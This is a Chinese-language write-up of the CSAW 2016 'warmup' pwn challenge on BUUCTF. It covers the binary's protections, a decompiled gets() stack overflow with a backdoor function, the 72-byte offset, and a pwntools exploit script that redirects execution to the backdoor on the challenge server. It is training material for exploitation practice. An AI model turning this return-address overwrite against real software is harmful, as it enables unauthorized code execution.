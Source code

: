 ```yaml
---
author: 
  name: Zephyr
title: warmup csaw 2016
date: 2022-3-19 20:12:04
permalink: /pages/1e944742e534d18b
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# warmup csaw 2016

## 前提

### 查看文件保护

```shell
root@localhost ~# checksec warmup_csaw_2016
[*] '/root/warmup_csaw_2016'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

## 静态分析

```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char s[64]; // [rsp+0h] [rbp-80h] BYREF
  char v5[64]; // [rsp+40h] [rbp-40h] BYREF

  write(1, "-Warm Up-\n", 0xAuLL);
  write(1, "WOW:", 4uLL);
  sprintf(s, "%p\n", sub_40060D);
  write(1, s, 9uLL);
  write(1, ">", 1uLL);
  return gets(v5);
}
```

存在溢出函数`gets`，另外通过查找函数表发现后门函数`sub_40060D`

```c
int sub_40060D()
{
  return system("cat flag.txt");
}
```



## 思路分析

本题比较简单，一开始将后门函数的地址就打印了出来，可以接收该地址，再通过`gets`函数溢出将返回地址修改为该值即可获得`flag`。

## 确定偏移量

使用`cyclic`，简单测试一下即可得知本题偏移量为0x40+8=72

## exp

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/warmup_csaw_2016/warmup_csaw_2016'
io = remote('node4.buuoj.cn', 27868)
# io = process(pwnfile)
padding = 0x40+8
io.recvuntil(b':')
backdoor = int(io.recvuntil(b'\n', drop=True), 16)  # 接收地址
print("backdoor:{0}".format(hex(backdoor)))
payload = flat(['a'*padding, backdoor])
io.sendline(payload)
io.interactive()
```
